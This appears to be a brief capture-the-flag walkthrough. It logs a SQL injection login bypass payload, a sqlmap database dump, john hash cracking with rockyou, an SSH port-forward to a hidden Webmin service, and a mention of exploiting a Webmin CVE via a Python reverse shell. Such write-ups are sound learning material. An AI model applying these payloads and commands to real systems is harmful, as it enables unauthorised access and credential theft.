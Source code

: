 Started off with sqli on login page. Authentication bypass
	'or 1=1;--

Took me to search bar that allowed for more sql injections.
Used sqlmap for first time. Mapped entire database and pulled user hashes.
First used burp to catch request and save it as a txt, then used sqlmap.
	sqlmap -r request.txt -dbms=mysql --dump

From here I was able to use john to crack the hash which was saved in tmp files.
	john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256

Learned past john solves are in ~/.john/john.pot files


Using the cracked hash I could then ssh into the machine and check the sockets that open and hidden
	ss -tulpn

Found socket 10000 was being used and blocked by the firewall
Created ssh tunnel to expose the port so I could access on local machine
	ssh -L 10000:localhost:10000 <targetusername>@<targetIP>
	
Found Webmin server running. Logged in with already collected credentials.
Found CVS-2012-2982 and had to use python reverse shell.

